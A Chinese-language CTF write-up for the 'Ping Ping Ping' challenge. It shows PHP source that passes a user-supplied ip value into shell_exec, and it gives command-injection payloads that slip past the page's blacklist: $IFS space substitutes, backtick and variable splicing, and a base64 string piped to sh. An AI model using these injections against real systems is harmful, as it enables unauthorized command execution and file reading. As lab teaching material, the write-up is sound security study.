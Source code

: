 # \[GXYCTF2019]Ping Ping Ping

## \[GXYCTF2019]Ping Ping Ping

## 考点

* 命令执行拼接

## wp

提示`/?ip=`

尝试命令拼接，`?ip=127.0.0.1;ls`，得到结果

查看根目录，，提示`fxck your symbol!`

测试发现过滤了空格，读一下index.php，`?ip=127.0.0.1;cat$IFS$9index.php`

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "";
  print_r($a);
}

?>

```

要读取flag.php但不能出现flag，思路有三个，一是把`ls`的结果当成cat的参数，二是重新定义变量，然后字符串拼接，三是使用sh，过滤了bash但是没有过滤sh

```
?ip=127.0.0.1;cat$IFS$9`ls`
?ip=127.0.0.1;t=g;cat$IFS$9fla$t.php
?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```

## 小结

1\. 绕过空格方法如下

```
cat${IFS}flag.php
cat$IFS$9flag.php
cat<flag.php
cat<>flag.php
{cat,flag.php}
AB=$'\x20flag.php'&&cat$AB 
```
